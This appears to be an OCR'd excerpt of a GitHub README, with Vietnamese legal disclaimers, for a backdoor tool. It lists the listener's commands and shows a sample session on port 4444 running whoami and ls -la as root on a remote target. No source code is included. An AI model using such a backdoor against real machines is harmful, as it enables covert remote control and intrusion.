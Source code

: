 ### Capabilities:
- **64-bit**: 64-bit architecture
- **ARM**: ARM architecture
- **Network**: Network capabilities
- **File**: File system access

## 🎧 Backdoor Listener

### Commands Available:
- **info**: Get system information
- **CMD:command**: Execute command
- **EXIT**: Exit backdoor

### Example Session:
```
🎧 Starting backdoor listener on port 4444
🔗 Backdoor connection from 192.168.1.100:7777
💓 Heartbeat from 192.168.1.100
backdoor@192.168.1.100:~$ info
ℹ️  System info from 192.168.1.100:
HOSTNAME: target-machine
USER: root
PID: 1234
CWD: /tmp

backdoor@192.168.1.100:~$ CMD:whoami
📋 Command result from 192.168.1.100:
root

backdoor@192.168.1.100:~$ CMD:ls -la
📋 Command result from 192.168.1.100:
total 8
drwxrwxrwt 2 root root 4096 Dec 10 10:00 .
drwxr-xr-x 22 root root 4096 Dec 10 09:00 ..
-rw-r--r-- 1 root root 0 Dec 10 10:00 backdoor.py

backdoor@192.168.1.100:~$ exit
🔌 Backdoor connection closed: 192.168.1.100
```

## ⚠️ Lưu Ý Quan Trọng

### 1. **Legal và Ethical**
- Chỉ sử dụng trên hệ thống của bạn
- Có authorization rõ ràng
- Tuân thủ luật pháp địa phương
- Không sử dụng cho mục đích malicious

### 2. **Security Best Practices**
- Sử dụng trong môi trường lab isolated
- Monitor tất cả hoạt động
- Log tất cả actions
- Regular security audits
